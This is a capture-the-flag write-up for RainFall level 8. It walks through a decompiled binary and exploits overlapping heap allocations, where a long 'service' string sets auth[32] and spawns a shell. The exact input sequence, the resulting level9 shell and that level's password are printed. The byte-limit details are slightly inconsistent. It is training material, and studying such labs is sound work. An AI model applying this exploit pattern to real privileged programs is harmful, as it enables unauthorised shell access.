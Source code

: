 # Level 8

When we launch the program, we are welcomed to put some inputs, then we see two pointer being printed, all of this in a loop.

```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
hello world
(nil), (nil) 
hi
(nil), (nil) 
\033
(nil), (nil)
```

We decompiled with Ghidra the source code, and we see that there are some strings comparisons with:
- `"auth "`
- `"reset"`
- `"service"`
- `"login"`

Lets try to use those strings:

```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
reset
0x804a008, 0x804a018 
login
Password:
0x804a008, 0x804a018 
auth 
0x804a008, 0x804a018 
```

Now some addresses are showing up. These are the addresses of two global variables:
- `auth`
- `service`

By looking more into the source code, each keyword as its own behavior:

### Auth
- Allocates 4 bytes for `auth`
- Sets the first byte of `auth` to 0
- If the length of a what's after `"auth "` of 2 bytes (aka `auth_array`) is less than 31 bytes,
copies the content of `auth_array` into the `auth` array

### Reset
- Frees the memory used by `auth` with `free()`

### Service
- Allocates bytes for the copy of what's after `"service"` (aka `service_array`)
into `serivce` with this line: `service = strdup(service_array)`

### Login
- Checks if `auth[32]` is 0:
  - If it is: Displays `"Password:\n"`
  - Else: Executes a shell with `system("/bin/sh")`

So our goal is to write anything 32 bytes after the start of `auth`.
Unfortunately, the writing in the Auth step is only 32 bytes.
But there is another way!
We saw that the address of what's stored in `auth` is `0x804a008` when done first.
We also saw that the address of what's stored in `service` is `0x804a018` when done after the command Auth.
This is very good for us, because `service` is located 16 bytes (0x10) after `auth`.
So basically if we but a `service` name that is longer than 16 bytes it should trigger the login condition:

```
level8@RainFall:~$ ./level8
(nil), (nil) 
auth
(nil), (nil) 
auth feur
0x804a008, (nil) 
serviceaaaaaaaaaaaaaaaaj
0x804a008, 0x804a018 
login
$ whoami
level9
$ cd ../level9
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## .pass: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
